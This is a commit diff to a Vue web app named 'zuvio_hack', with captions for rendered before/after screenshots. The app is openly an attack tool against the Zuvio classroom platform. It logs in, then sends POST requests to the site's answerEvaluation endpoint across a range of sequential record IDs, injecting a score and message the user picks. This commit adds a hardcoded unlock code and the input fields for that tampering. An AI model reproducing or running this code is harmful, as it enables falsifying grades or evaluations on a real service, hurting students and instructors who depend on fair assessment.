

Before and after one commit to Xanonymous-GitHub/zuvio_hack, a Vue app: page / in a window 1280 px wide. Shown: the part 414-680 px from the top of the page, without its empty margins (319-959 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
finish layout

```diff
--- a/src/views/Home.vue
+++ b/src/views/Home.vue
@@ -25,7 +25,29 @@
 
           <div>純屬娛樂，請勿自行嘗試。</div>
         </v-card-text>
-
+        <v-col cols="12" sm="6">
+          <v-text-field
+            v-model="password"
+            :append-icon="show1 ? 'mdi-eye' : 'mdi-eye-off'"
+            :rules="[rules.required, rules.min]"
+            :type="show1 ? 'text' : 'password'"
+            name="input-10-1"
+            label="請輸入攻擊執行確認碼"
+            v-if="!verified"
+            @click:append="show1 = !show1"
+          ></v-text-field>
+          <div class="my-2">
+            <v-btn
+              v-if="!verified"
+              dark
+              depressed
+              @click="verifiedNow"
+              class="deep-purple accent-4"
+              ><v-icon>mdi-card-search</v-icon><b>驗證攻擊碼</b></v-btn
+            >
+          </div>
+        </v-col>
+        <p v-if="attackStatus" class="white--text green"><b>攻擊完畢！</b></p>
         <v-card-actions justify="center" align="center">
           <v-btn
             block
@@ -34,9 +56,10 @@
             center
             x-large
             color="success"
-            dark
+            :disabled="!(attackStatus === false && verified === true)"
+            v-if="verified"
             @click="attackClicked"
-            >ATTACK NOW!!</v-btn
+            ><v-icon class="mx-2">mdi-crosshairs-gps</v-icon>ATTACK NOW!!</v-btn
           >
         </v-card-actions>
       </v-card>
@@ -65,9 +88,32 @@ export default {
     mainImage
   },
   data: () => ({
-    attackStatus: false
+    attackStatus: false,
+    verified: false,
+    password: "",
+    show1: false,
+    scoreUWant: 0,
+    msg: "",
+    inputStatus: true,
+    rules: {
+      required: value => !!value || "請輸入密碼",
+      min: v => v.length >= 8 || "至少8個字"
+    }
   }),
   methods: {
+    verifiedNow() {
+      if (this.password === "0202494c0063") {
+        this.verified = true;
+      } else {
+        if (this.inputStatus) {
+          this.scoreUWant = Number(this.password);
+          this.inputStatus = !this.inputStatus;
+        } else {
+          this.msg = this.password;
+          this.inputStatus = !this.inputStatus;
+        }
+      }
+    },
     attackClicked() {
       if (!this.attackStatus) {
         this.loginGET();
@@ -75,6 +121,8 @@ export default {
         for (let i = 2761670; i <= 2761720; i++) {
           this.attackPOST(i);
         }
+        this.attackStatus = true;
+        this.$vuetify.theme.dark = true;
       }
     },
     async loginGET() {
@@ -87,7 +135,9 @@ export default {
       await api.post("/irs/submitLogin", bodyFormData);
     },
     async attackPOST(i) {
-      let answers = [{ id: "400875", answer: "test87", score: 4 }];
+      let answers = [
+        { id: "400875", answer: this.msg, score: this.scoreUWant }
+      ];
       let my_data = {
         url: "https://irs.zuvio.com.tw" + "/app_v2/answerEvaluation",
         type: "POST",
```
